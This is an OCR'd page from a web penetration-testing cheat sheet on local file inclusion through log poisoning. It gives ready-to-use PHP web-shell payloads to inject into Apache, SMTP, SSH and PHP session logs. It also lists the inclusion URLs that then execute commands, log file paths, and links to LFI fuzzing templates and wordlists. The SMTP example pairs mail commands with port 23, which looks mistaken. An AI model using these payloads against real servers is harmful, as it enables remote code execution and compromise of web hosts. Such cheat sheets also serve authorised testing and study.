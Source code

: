 #### Log Poisoning

- Apache

```
nc ip 80  
<?php system($_GET[‘cmd’]); ?>  
```  

or  
 
```
curl -s http://ip/index.php -A '<?php system($_GET[‘cmd’]); ?>'
http://ip/index.php?file=/var/log/apache2/access.log&cmd=id  
```

- SMTP  

```
telnet ip 23
MAIL FROM: email@gmail.com
RCPT TO: <?php system($_GET[‘cmd’]); ?>  
http://ip/index.php?file=/var/mail/mail.log&cmd=id
```  
  
- SSH  

```
ssh \'<?php system($_GET['cmd']);?>'@ip  
http://ip/index.php?file=/var/log/auth.log&cmd=id
```  

- PHP session  

```
http://ip/index.php?file=<?php system($_GET["cmd"]);?>  
http://ip/index.php?file=/var/lib/php/sessions/sess_<your_session>&cmd=id
```
  
- Other Paths  

```
/var/log/nginx/access.log  
/var/log/sshd.log  
/var/log/vsftpd.log  
/proc/self/fd/0-50  
```

### Directory traversal - Nuclei

https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/fuzzing/linux-lfi-fuzzing.yaml
https://raw.githubusercontent.com/CharanRayudu/Custom-Nuclei-Templates/main/dir-traversal.yaml

#### Wordlists

- burp-parameter-names.txt - Wordlist for parameter fuzzing  
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt  
- Wordlist LFI - Linux  
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  
- Wordlist LFI - Windows  
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt 
- bypass_lfi.txt  
https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/wordlists/lfi_bypass.txt  
- poisoning.txt  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/posoning.txt  
